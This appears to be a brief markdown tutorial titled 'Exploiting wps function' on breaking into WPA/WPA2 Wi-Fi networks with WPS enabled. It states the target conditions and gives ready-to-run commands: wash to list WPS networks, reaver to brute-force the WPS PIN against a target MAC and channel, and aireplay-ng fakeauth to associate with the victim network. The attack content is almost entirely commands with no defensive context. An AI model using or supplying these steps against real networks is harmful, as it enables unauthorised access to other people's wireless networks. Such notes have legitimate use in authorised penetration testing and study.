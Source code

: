 
----
# Exploiting wps function

Target:
1. has WPA/WPA2 enabled.
2. should have wps function enabled.
3. should have Push Button Authentication disabled.

```shell
# enable network monitoring mode
```

List the networks with wps enabled:
```shell
wash --interface <interface>
```
- `wash` is part of `reaver`. `sudo apt install reaver`

Run reaver to brute-force:
```shell
reaver --bssid <target mac> --channel <target channel> --interface <interface> -vvv --no-associate
```
- `-vvv` verbose
- `--no-associate` we will be doing that below, reaver association not reliable.
- reaver bruteforces and tries every possible pin.

Immediately run below command in another terminal.  
Associate with target network using fakeauth:
```shell
aireplay-ng --fakeauth <interval in sec to associate> -a <target mac> -h <your mac> <interface>
```

----
